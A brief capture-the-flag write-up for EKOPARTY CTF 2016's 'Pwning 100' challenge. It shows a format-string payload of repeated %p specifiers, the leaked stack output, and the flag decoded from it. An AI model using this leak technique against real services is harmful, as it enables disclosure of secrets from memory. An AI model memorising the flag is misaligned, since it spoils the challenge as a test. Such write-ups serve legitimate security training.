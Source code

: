 #EKOPARTY CTF 2016: Pwning 100

###My first service I
```
Blacky is taking his first steps at C programming for embedded systems, but he makes some mistakes. Retrieve the secret key for access.

nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Alternate server: 7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site 35000
```

##Solution
A format string exploitation.
Payload:
```
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p
```
And we get:
```
Invalid key: aaaa (nil) 0xa (nil) (nil) (nil) 0xa (nil) 0x454b4f7b 0x4c614269 0x67426566 0x3072647d (nil) 0x61616161
```

So, this hex is the secret key (flag):
>454b4f7b4c614269674265663072647d

>EKO{LaBigBef0rd}

Flag:
>EKO{LaBigBef0rd}

